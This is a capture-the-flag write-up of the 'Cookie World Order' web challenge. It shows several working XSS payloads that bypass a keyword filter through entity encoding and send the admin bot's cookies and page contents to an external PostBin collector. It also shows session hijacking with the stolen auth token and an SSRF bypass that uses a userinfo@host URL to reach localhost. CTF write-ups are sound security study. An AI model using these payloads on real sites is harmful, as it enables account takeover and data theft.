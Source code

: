 Cookie World Order (**web**)

    Good job! You found a further credential that looks like a VPN 
    referred to as the cWo. The organization appears very clandestine 
    and mysterious and reminds you of the secret ruling class of hard 
    shelled turtle-like creatures of Xenon. Funny they trust their 
    security to a contractor outside their systems, especially one with 
    such bad habits. Upon further snooping you find a video feed of 
    those "Cauliflowers" which look to be the dominant lifeforms and 
    members of the cWo. Go forth and attain greater access to reach 
    this creature!

Similarly with day 3 web problem case, we have a URL: https://cwo-xss.web.ctfcompetition.com/

Opening it and observing very similar page with Admin and field for 
input some text message.

Trying to copy-paste previous solution:

    <script>
    var img=new Image();
    img.src="https://postb.in/1561479835927-8693528019357?cookie="+document.cookie;
    </script>

leads to reply "HACKER ALERT!".
After typing different string it comes out that input must not contain 
`script` or `alert` as a substring. Well, modern WEB is full of tricks 
and wistles. If you (like me) have no expirience with web programming, 
Googling can conpensate it. Just request something like "bypassing XSS 
filter".

Our first:

    <scrip&#0000116>
    aler&#0000116('XSS');
    </scrip&#0000116>

Unfortunately, server removed `<script>` tag. Hm, maybe there are tags 
that are "allowed", do check:
    
    <b> bold </b> 
    <a href="google.com"> google </a> 
    <img src="https://cwo-xss.web.ctfcompetition.com/static/img/profile.png">

Yes, links and images work well! But links mostly requires user's 
actions, and we can be sure, that Admin bot will not click on any.
Now, back to the googling. And quickly find out that it is quite easy 
to call javascript from some event handlers, and if we can fire these 
events, then we can execute script. Common place is `onerror` event of 
`img` node, and it is very easy to fire error, just by giving it 
inproper source URL. Let's use our PostBin and try:

    <img src=x onerror="javascrip&#0000116:
    var img=new Image();
    img.src='https://postb.in/1561495195584-1681611498352?cookie='+document.cookie;">

... and back to PostBin:

    GET /1561495195584-1681611498352 2019-06-25T20:40:15.156Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3Cimg%20src=x%20onerror=%22javascrip&
        accept-encoding: gzip, deflate, br

    Query

        cookie: flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz

    Body

Ok, the flag is

**CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}**


But what could we see in Admin panel with his auth token? Open 
WenConsole, do

    document.cookie="auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"

and click on "Admin" link. What we have here... Users and Livestreams 
seems are not working. Camera Controls say requests are allowed only 
from 127.0.0.1 (localhost). Maybe those HeadlessChrome-bot is on the 
same host with server? Let's try to see how bot renders this page:

    <img src=x onerror="javascrip&#0000116:
    fetch('/admin/controls', {method: 'get'}).then((res) => { return res.text(); }).then((data) => {
          var img=new Image();img.src='https://postb.in/1561495316858-4828648881521?'+data;
    });">

Bad luck, he see the same message:

    GET /1561495316858-4828648881521 2019-06-25T21:03:13.407Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3Cimg%20src=x%20onerror=%22javascrip&
        accept-encoding: gzip, deflate, br

    Query

        Requests only accepted from 127.0.0.1: 

After some lurking on the main page we can see strange thing: video is 
viewed with url `https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm`

Why does it refer to the file with absolute path (and with no TLS)? Can 
this page show us any file all over the world? Try:

    https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://google.com
    => Your only allowed to make requests to "http://cwo-xss.web.ctfcompetition.com" 

Ok then, it seems like server checks that requested page path starts 
with `http://cwo-xss.web.ctfcompetition.com`. In fact this check does 
not guarantee that URL's hostname in `cwo-xss.web.ctfcompetition.com`, 
because the full URI specification (RFC3986) stetes that after scheme 
(`http`), colon and two slashes goes *authority*, which has format:

    [ userinfo "@" ] host [ ":" port ]

Thus we can use string `cwo-xss.web.ctfcompetition.com` as userinfo.
Actually we can append to it any additional characters, uncluding fake 
"password" for authentification (that hopefully will not needed). What 
is important is to add "@" character. After it we can add any host and 
port. Let's try:

    https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com:passw0rd@google.ru

Yes, we did it! Cross fingers and request admin controls:

    https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com:passw0rd@127.0.0.1/admin/controls

And there is second flag:

**CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}**
